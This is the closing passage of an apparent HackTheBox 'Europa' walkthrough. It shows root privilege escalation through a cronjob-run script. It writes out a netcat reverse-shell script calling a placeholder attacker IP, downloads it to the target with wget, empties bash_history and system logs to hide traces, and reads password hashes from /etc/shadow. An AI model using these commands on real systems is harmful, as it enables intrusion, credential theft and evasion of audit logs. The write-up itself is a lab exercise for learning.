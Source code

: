 If we create reverse shell script, it will run as root and we will be the big bad boss of the box.

* `cd ../cmd`
* `ls -la`

![A34-cmd](https://i.imgur.com/svKtWiT.png)

Since our shell is limited, and my go-to method of getting a TTY using python is off the table (no python on this box) - we should write our script on our local machine and then download it using `wget` like we did before.

Due to the use of certain characters, I found it easiest to write this script in a full text editor like vim or gedit.

```
#!/bin/sh
rm /tmp/fa; mkfifo /tmp/fa; cat /tmp/fa|/bin/sh -i 2>&1|nc local.machine.ip.addr ROOTPORT > /tmp/fa
```

and save it as `logcleared.sh`


Then, using the same python HTTP Server, use `wget` on the europa-user shell to download our custom-made `logcleared.sh`. Before doing this, make sure your listener is active. You wouldn't want to miss the cronjob!

On Europa, run

* `wget http://local.machine.ip.addr:hostport/logcleared.sh`
* `chmod +x logcleared.sh`

Now, we wait. If it takes more than a few minutes, you've done something wrong. Check your IPs, ports, etc.

![A36-rootshell](https://i.imgur.com/oaSJD3A.png)

I just love to see that `#`

## 5. Root Flag and Cleanup

We've done it.
Grab the root flag with...

* `cat /root/root.txt`

...and if you want, you can be done here. I'm going to clean up after myself and remove a few traces of my presence here. NOTE: I am not doing this in the stealthiest way possible. I'm doing this to form good habits, but do not see this as an example of a phantom-like dissappearance.

* `cd /tmp; rm f fa script.sh`
* `rm /var/www/cmd/logcleared.sh`
* `echo '' > /home/john/.bash_history`
* `echo '' > /var/log/auth.log `
* `echo '' > /var/www/admin/logs/access.log`

If you want to copy down the user password hashes to attempt to crack them, copy them from
`cat /etc/shadow | grep '\$'`
and good luck cracking - these boxes are designed for this to not be easy.


In both your user and root shells, exit with

`kill -9 $$`


Thanks to HackTheBox and ch4p for a fun box.

## Thanks for reading!

<br>
[Main Page](index.md)
